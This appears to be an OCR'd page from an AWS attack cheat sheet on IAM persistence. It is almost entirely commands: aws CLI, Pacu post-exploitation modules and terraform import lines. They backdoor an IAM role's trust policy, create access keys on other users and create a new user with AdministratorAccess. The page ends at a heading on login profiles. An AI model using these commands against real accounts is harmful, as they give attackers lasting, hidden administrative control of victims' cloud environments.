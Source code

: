 
### Backdoor an IAM Role


```
aws iam update-assume-role-policy --role-name <role-name> --policy-document <policy-document>
```

```
ccat iam
```

```
python3 pacu.py --use single_module --module post_exploitation/__backdoor_iam_role --role-name <role-name> --aws-region <AWS_region>
```


```
terraform import aws_iam_role.backdoored_role <role-ARN>
```


### Create an Access Key on an IAM User


```
aws iam create-access-key --user-name <user-name>
```



```
python3 pacu.py --use single_module --module post_exploitation/__create_access_key --user-name <user-name> --aws-region <AWS_region>
```


```
terraform import aws_iam_access_key.access_key <access-key-id>
```



### Create an administrative IAM User


```
aws iam create-user --user-name <user-name> && aws iam attach-user-policy --user-name <user-name> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```


```
python3 pacu.py --use single_module --module privilege_escalation/iam__create_user_admin
```


```
terraform import aws_iam_user.admin <user-name>
```


### Create a Login Profile on an IAM User
